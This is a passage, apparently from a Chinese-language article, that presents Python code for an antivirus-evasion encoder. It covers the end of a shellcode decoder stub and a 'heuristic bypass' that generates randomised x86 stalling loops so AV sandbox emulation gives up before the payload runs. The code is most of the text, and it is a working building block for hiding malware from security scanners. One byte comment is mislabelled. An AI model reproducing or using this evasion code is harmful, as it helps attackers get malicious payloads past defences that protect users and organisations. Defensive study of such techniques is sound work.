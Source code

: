 ```
    decoder = mov_instruct + decoder  # prepend the decoder with the mov instruction 
    decoder += "\x40" # inc eax
    decoder += "\x3d" + decode_end # cmp eax, decode_end
    back_jump_value = binascii.unhexlify(format((1 << 16) - (len(decoder)-len(mov_instruct)+2), 'x')[2:]) # TODO: keep the total length < 128 for this short jump
    decoder += "\x7e" + back_jump_value # jle, start_of_decode 
    decoder += "\x90\x90" # NOPS

    return decoder

```

0x06 Heuristic 绕过
=================

* * *

Heuristic 绕过也只不过是一系列指令循环执行诱导AV以为可执行文件已经运行。NOPS, INC/DEC, ADD/SUB, PUSH/POP 指令都是可行的。就像编码过程一样，首先生成一个伪随机数决定起始指令的顺序，然后与递增和比较指令相配对（当然这一过程也是在某个范围中随机产生）创建有限的迭代循环。

循环的次数在脚本运行前定义，但是要记住循环次数越多，时间也就越长。

```
def generate_heuristic(loop_limit):
 
    fill_limit = 3 # the maximum number of fill instructions to generate in between the heuristic instructions
    heuristic = ""
    heuristic += "\x33\xC0"                                                         # XOR EAX,EAX
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x40"                                                             # INC EAX
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x3D" + struct.pack("L", loop_limit)                              # CMP EAX,loop_limit
    short_jump = binascii.unhexlify(format((1 << 16) - (len(heuristic)), 'x')[2:])  # Jump immediately after XOR EAX,EAX
    heuristic += "\x75" + short_jump                                                # JNZ SHORT 
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x90\x90\x90"                                                     # NOP
    return heuristic
 
'''
    This is a very basic attempt to circumvent remedial client-side sandbox heuristic scanning
    by stalling program execution for a short period of time (adjustable from options)
'''
def build_heuristic_bypass(heuristic_iterations):
 
    # we only need to clear these registers once
    heuristic_start = "\x90\x90\x90\x90\x90\x90" # XOR ESI,ESI
    heuristic_start += "\x31\xf6"                # XOR ESI,ESI
    heuristic_start += "\x31\xff"                # XOR EDI,EDI
    heuristic_start += add_fill_instructions(5)

    # compose the various heuristic bypass code segments  
    heuristic = ""  
    for x in range(0, heuristic_iterations):
        loop_limit = randint(286331153, 429496729)
        heuristic += generate_heuristic(loop_limit) #+ heuristic_xor_instruction
    print "[*] Generated Heuristic bypass of %i iterations" % heuristic_iterations
    heuristic = heuristic_start + heuristic 
    return heuristic

```
